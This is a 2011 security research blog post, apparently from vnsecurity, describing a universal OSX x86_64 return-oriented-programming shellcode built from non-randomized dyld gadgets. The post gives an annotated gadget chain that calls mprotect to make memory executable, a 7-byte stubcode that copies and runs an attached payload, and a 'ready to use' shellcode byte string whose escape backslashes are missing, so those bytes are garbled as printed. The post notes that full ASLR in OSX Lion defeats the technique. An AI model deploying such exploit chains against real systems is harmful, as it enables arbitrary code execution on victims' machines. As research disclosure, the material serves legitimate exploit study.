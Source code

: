 ```yaml
---
title: Yet another universal OSX x86_64 dyld ROP shellcode
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:86:"http://www.vnsecurity.net/2011/07/yet-another-universal-osx-x86_64-dyld-rop-shellcode/";s:7:"tinyurl";s:26:"http://tinyurl.com/84vmfss";s:4:"isgd";s:19:"http://is.gd/QvH3MF";}'
tweetbackscheck:
  - 1408358971
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
kopa_newsmixlight_total_view:
  - 2
category:
  - research
tags:
  - '2011'
  - dyld
  - OSX
  - return-oriented-programming
  - rop
  - shellcode
---
```

This technique was killed by OSX Lion 10.7 with full ASLR. @pa_kt has posted an [Universal ROP shellcode for OS X x64][1] with detail steps and explanation. If you don&#8217;t have a chance to read above post, the basic ideas are:

*   Copy stubcode to a writable area (.data section)
*   Make that area RWX
*   Jump to RWX area and execute stubcode
*   Stubcode will transfer normal shellcode to RWX area and execute it
*   All the ROP gadgets are from dyld module which is not randomized

In this post, we shows another OSX x86_64 dyld ROP shellcode which is more simple. We employ the same ideas with some minor differences in implementation:

*   Instead of using long gadgets with &#8220;leave&#8221;, we use direct, short gadgets from unintended code
*   Calling mprotect() via syscall
*   Short stubcode (7 bytes) using memcpy() to transfer payload

Here is the ROP shellcode with explanation:

<pre class="brush: plain; title: ; notranslate" title=""># store [target], stubcode
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0xc353575e545a5b90 # =&gt; rsi = stubcode
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc74f80 # =&gt; rdi
0x00007fff5fc24d26 # mov [rdi+0x80] rsi; stubcode =&gt; [target]
# load rdx, 0x7 (prot RWX)
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc75001 # =&gt; rdi
0x00007fff5fc1ddc0 # lea rax, [rdi-0x1]
0x00007fff5fc219c3 # pop rbp ; add [rax] al ; add cl cl
0x00007fff5fc75000 # =&gt; rbp
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0x0000000000000007 # =&gt; rsi
0x00007fff5fc14149 # mov edx esi ; add [rax] al ; add [rbp+0x39] cl =&gt; rdx = 0x7
# load rsi, 4096 (size)
0x00007fff5fc0e7ee # pop rsi ; adc al 0x83
0x0000000000001000 # =&gt; rsi = 4096
# load rax, mprotect_syscal
0x00007fff5fc24cdc # pop rdi
0x000000000200004b # =&gt; rdi
0x00007fff5fc1ddc0 # lea rax, [rdi-0x1] =&gt; rax = 0x200004a (mprotect syscall)
# load rdi, target
0x00007fff5fc24cdc # pop rdi
0x00007fff5fc75000 # =&gt; rdi = target
# syscall
0x00007fff5fc1c76d # mov r10, rcx; syscall  =&gt; mprotect(target, 4096, 7)
0x00007fff5fc75000 # jump to target, execute stubcode
# stubcode
# 5B                pop rbx     # rbx -&gt; memcpy()
# 5A                pop rdx     # rdx -&gt; size
# 54                push rsp    # src -&gt; &shellcode
# 5E                pop rsi     # src -&gt; &shellcode
# 57                push rdi    # jump to target when return from memcpy()
# 53                push rbx    # memcpy()
# C3                ret         # execute memcpy(target, &shellcode, size)
0x00007fff5fc234f0 # &memcpy()
0x0000000000000200 # shellcode size = 512
&lt;your shellcode here&gt;
</pre>

You can verify those gadgets and find more here: <http://goo.gl/p35vY>

Ready to use shellcode:

<pre class="brush: plain; title: ; notranslate" title="">"xeexe7xc0x5fxffx7fx00x00x90x5bx5ax54x5ex57x53xc3"
"xdcx4cxc2x5fxffx7fx00x00x80x4fxc7x5fxffx7fx00x00"
"x26x4dxc2x5fxffx7fx00x00xdcx4cxc2x5fxffx7fx00x00"
"x01x50xc7x5fxffx7fx00x00xc0xddxc1x5fxffx7fx00x00"
"xc3x19xc2x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"xeexe7xc0x5fxffx7fx00x00x07x00x00x00x00x00x00x00"
"x49x41xc1x5fxffx7fx00x00xeexe7xc0x5fxffx7fx00x00"
"x00x10x00x00x00x00x00x00xdcx4cxc2x5fxffx7fx00x00"
"x4bx00x00x02x00x00x00x00xc0xddxc1x5fxffx7fx00x00"
"xdcx4cxc2x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"x6dxc7xc1x5fxffx7fx00x00x00x50xc7x5fxffx7fx00x00"
"xf0x34xc2x5fxffx7fx00x00x00x02x00x00x00x00x00x00"
</pre>
 [1]: http://gdtr.wordpress.com/2011/07/23/universal-rop-shellcode-for-os-x-x64/